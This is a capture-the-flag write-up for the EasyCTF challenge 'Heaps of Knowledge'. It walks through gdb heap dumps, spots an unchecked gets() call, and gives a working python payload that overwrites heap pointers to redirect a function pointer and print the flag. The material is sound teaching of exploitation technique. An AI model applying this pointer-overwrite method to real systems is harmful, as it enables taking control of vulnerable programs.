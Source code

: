 # Heaps of Knowledge - 420 Points

#### phsst - VoidMercy's writeup

We were given a binary. We run it to see what it does.
It prompts you for a book name, then there are three options:

```
Please enter the title of the book you would like to write: AAAA
You have started writing the book 'AAAA'. Please select an option to get started!
1. Edit chapter
2. Delete chapter
3. Publish book
```

After experimenting with this program, you find out that you can only create a chapter starting from 1, 2, 3 and so on. Also you can only delete an existing chapter otherwise the program will exit. Then, publish prints the title, and the content of each chapter. Then, if you edit an existing chapter, it changes it's content.

Because this problem is called Heaps of Knowledge, we can be fairly certain this will be a heap exploit.
We can run this in gdb, enter a random book title, let's say "AAAA" then view our heap using:

>info proc mappings

```
(gdb) x/50wx 0x804c000
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000000
0x804c010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804c020:      0x00000000      0x00020fe1      0x00000000      0x00000000
0x804c030:      0x00000000      0x00000000      0x00000000      0x00000000
```

We can see that the first section consists of an address to the actual title of the book, contained in another section. Let's do the same after adding a couple of chapters. Let's set chapter 1's name to BBBB, and it's content to CCCC while chapter 2's name to DDDD and it's content to EEEE

```
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000002
0x804c010:      0x0804c028      0x00000011      0x41414141      0x00000000
0x804c020:      0x00000000      0x00000019      0x00000000      0x0804c060
0x804c030:      0x0804c040      0x0804c050      0x0804872f      0x00000011
0x804c040:      0x42424242      0x0000000a      0x00000000      0x00000011
0x804c050:      0x43434343      0x0000000a      0x00000000      0x00000019
0x804c060:      0x0804c028      0x00000000      0x0804c078      0x0804c088
0x804c070:      0x0804872f      0x00000011      0x44444444      0x0000000a
0x804c080:      0x00000000      0x00000011      0x45454545      0x0000000a
0x804c090:      0x00000000      0x00020f71      0x00000000      0x00000000
```

We can see that this is very similar in structure. The section containing addresses for chapters, however, contains three addresses: the chapter's name, chapter's content, and huh? what is the last one? We can quickly view it using

>x 0x0804872f

```
0x804872f <print_chapter>:      0x83e58955
```

We see that this is an address pointing to the function to print this chapter. From this knowledge, we can surmise that the edit chapter edits content at the chapter's content's address (for chapter 1 in this case, it is 0x0804c050). Then the publish function most likely calls the function at the print chapter address stored on the heap. (for chapter 1 it is 0x0804872f).

Next, we look into the disassembly of the binary. I used IDA to disassemble this binary.

![](https://github.com/VoidMercy/EasyCTF-Writeups-2017/blob/master/binexploit/Heaps-of-Knowledge/screenshot1.PNG)

It uses gets() to get the content of the chapter text! This means we can overflow the heap because gets does not check the length of the string you give it. Using this, we can pretty much construct the heap to whatever we want it to look like.
We then see a give_flag function so we look into it. It reads the flag file and prints it's contents. However, there's a catch

![](https://github.com/VoidMercy/EasyCTF-Writeups-2017/blob/master/binexploit/Heaps-of-Knowledge/image.png)

success needs to be set to 0x13371337 in order for the flag file to be read. And we see that success is set to just 0x1337 in default. However, we can use the edit chapter content function of the program to change the address of chapter content and write to that address. Then if we set the address of print chapter to give_flag, publishing the book should give us our flag.

I used gdb to get the address of give_flag, and IDA for success:

>p give_flag

```
$2 = {<text variable, no debug info>} 0x804879a <give_flag>
```

and success = 0x0804b054

Now I used gdb to create two chapters, and manually edit the heap to what I want it to look like using:

>set {int}address=value

Here is the state of the heap:

```
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000002
0x804c010:      0x0804c028      0x00000011      0x41414141      0x42424242
0x804c020:      0x00000000      0x00000019      0x00000000      0x0804c060
0x804c030:      0x0804c040      0x0804c050      0x0804879a <give_flag> 0x00000011
0x804c040:      0x43434343      0x0000000a      0x00000000      0x00000011
0x804c050:      0x44444444      0x0000000a      0x00000000      0x00000019
0x804c060:      0x0804c028      0x00000000      0x0804c078      0x0804b054 <success>
0x804c070:      0x0804872f      0x00000011      0x45454545      0x0000000a
0x804c080:      0x00000000      0x00000011      0x46464646      0x0000000a
0x804c090:      0x00000000      0x00020f71      0x00000000      0x00000000
0x804c0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0e0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0f0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c100:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c110:      0x00000000      0x00000000
```

Then after editing the contents of chapter 2 to 0x13371337 and publishing, the contents of flag.txt was successfully printed.


Now we know the requirements for the exploit:
1) Change address of chapter content to address of success
2) Edit that chapter's content to 0x13371337
3) Change address of print chapter to address of give_flag
4) Publish

Now, we just have to construct an exploit.

I decided to create 2 chapters and overflow the second chapter's addresses through the first chapter's content.

The key input order will be:

AAAA

1

1

BBBB

CCCC

1

2

DDDD

EEEE

1

1

"C" * 24 + 0x804c078 + 0x0804b054 + 0x804879a

1

2

0x13371337

3

I printed the non printable ascii characters with python and piped the input into the binary

python -c "print 'AAAA\n1\n1\nBBBB\nCCCC\n1\n2\nDDDD\nEEEE\n1\n1\n' + 'C'*24 + '\x78\xc0\x04\x08' + '\x54\xb0\x04\x08' + '\x9a\x87\x04\x08\n' + '1\n2\n' + '\x37\x13\x37\x13\n' + '3\n'" | ./heaps_of_knowledge

## Flag

>easyctf{4r3nT_u_hav1ng_h34pz_0f_Fun?}
